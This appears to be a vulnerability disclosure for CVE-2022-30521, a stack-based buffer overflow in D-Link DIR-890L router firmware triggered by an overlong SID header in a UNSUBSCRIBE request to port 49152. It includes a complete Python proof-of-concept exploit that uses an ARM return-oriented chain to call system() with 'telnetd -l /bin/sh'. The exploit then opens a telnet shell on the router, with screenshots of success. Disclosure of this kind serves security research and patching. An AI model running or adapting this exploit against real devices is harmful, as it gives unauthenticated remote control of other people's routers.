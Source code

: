 # CVE-ID

[CVE-2022-30521](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-30521 "https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-30521")

# Information

**Vendor of the products:**    D-Link

**Reported by:**    WangJincheng(<wjcwinmt@outlook.com>) && FeiXincheng(<FXC030618@outlook.com>)

**Affected products:**    D-Link DIR-890L <= v1.07B09

**Vendor Homepage:**    [https://www.dlink.com](https://www.dlink.com "https://www.dlink.com")

# Overview

The LAN-side Web-Configuration Interface has `Stack-based Buffer Overflow vulnerability` in the `D-Link` Wi-Fi router firmware `DIR-890L DIR890LA1_FW107b09.bin` and previous versions. 

The function created at `0x17958` of `/htdocs/cgibin` will call `sprintf` without checking the length of strings in parameters given by `HTTP header` and can be controlled by users easily.

The attackers can exploit the vulnerability to carry out arbitrary code by means of sending a specially constructed payload to port `49152`.

# Vulnerability Description

The vulnerability is detected at `/htdocs/cgibin`.

There is a `Stack-based Buffer Overflow vulnerability` in the function created at `0x17A60`. When we use `UNSUBSCRIBE` request, it will call the `sub_17958` function which created at `0x17958`.

![image](https://github.com/winmt/CVE/blob/main/DIR-890L/pic/1-1.jpg)

However, in the `sub_17958` function, it will call `sprintf` without checking the length of `v2`, which causes the `stack overflow`. The `v2` here is `SID` parameter given by `HTTP header`.

![image](https://github.com/winmt/CVE/blob/main/DIR-890L/pic/1-2.jpg)

# Poc

```python
# python3
from pwn import *
from socket import *
from os import *
from time import *
context(os = 'linux', arch = 'arm')

libc_base = 0xb6f7e000

s = socket(AF_INET, SOCK_STREAM)

cmd = b'telnetd -l /bin/sh;'
payload = b'a'*449
payload += p32(libc_base + 0x18298) # pop {r3, pc};
payload += p32(libc_base + 0x406f8) # mov r0, r1; pop {r3, pc};
payload += p32(libc_base + 0x390fc) # pc add r1, sp, #0x2c; blx r3;
payload += b'a'*4 # padding
payload += p32(libc_base + 0x5a270) # pc system
payload += b'a'*(0x2c-8) # padding
payload += cmd

msg = b"UNSUBSCRIBE /gena.cgi?service=0 HTTP/1.1\r\n"
msg += b"Host: localhost:49152\r\n"
msg += b"SID: " + payload + b"\r\n\r\n"

s.connect((gethostbyname("192.168.0.1"), 49152))
s.send(msg)

sleep(1)
system("telnet 192.168.0.1 23")
```

# Get Shell

![image](https://github.com/winmt/CVE/blob/main/DIR-890L/pic/2-0.jpg)

Scan ports before exploit the vulnerability.

![image](https://github.com/winmt/CVE/blob/main/DIR-890L/pic/2-1.jpg)

Exploit the vulnerability and get shell successfully.

![image](https://github.com/winmt/CVE/blob/main/DIR-890L/pic/2-2.jpg)

Scan ports again and we can dectect that the port `23` which represents `Telnet` service has been opened.

![image](https://github.com/winmt/CVE/blob/main/DIR-890L/pic/2-3.jpg)
